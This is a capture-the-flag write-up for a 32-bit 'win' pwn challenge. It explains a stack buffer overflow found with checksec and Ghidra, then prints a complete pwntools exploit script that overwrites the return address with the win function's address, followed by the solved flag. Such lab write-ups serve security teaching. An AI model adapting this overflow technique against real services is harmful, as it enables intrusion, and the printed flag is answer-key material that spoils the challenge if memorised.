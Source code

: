 
This write up is for the win pwn challenge.

The first thing I am going to do is to run both file and checksec to see the basic information and protections on the binary.
```
*] '/home/kali/Downloads/CWE2025/real/win'
    Arch:       i386-32-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x8048000)
    Stripped:   No

```
After putting into ghidra I  can see that the program reads my input into a buffer without checking the size. This immediately led to a buffer overflow to a win function. Because there is no PIE I can just use the address of win found in ghidra.

I used cyclic in pwndbg to find my offset of 52
I then created my python script to solve 

```python
#!/usr/bin/env python3 
import subprocess
from pwn import *

binary_path = './win' # exe
libc_path = ''
remote_host = 'www.cweaccessionsctf.com'
remote_port = 1300  # <-- Needs to be a valid integer if using REMOTE

context.binary = binary_path
#context.terminal = ['tmux', 'splitw', '-h']
elf = context.binary
#libc = ELF(libc_path)
rop = ROP(elf)
#libc = ELF(libc_path)

if args.GDB:
    p = gdb.debug(binary_path, gdbscript='b *')
elif args.REMOTE:
    p = remote(remote_host, remote_port)
else:
    p = process(binary_path)

def main():
    win = 0x080491a6
    payload = b''
    payload += b'A' * 52 
    payload += p32(win)

    p.sendline(payload)

    p.interactive()

if __name__ == '__main__':
    main()


```

CWE{no_stack_smashing_here_Nl8VyJ4C}

<!--stackedit_data:
eyJoaXN0b3J5IjpbMzgzMjQ2ODA4LDE4MTc5OTk3NTksLTExMj
IwMTQwMDFdfQ==
-->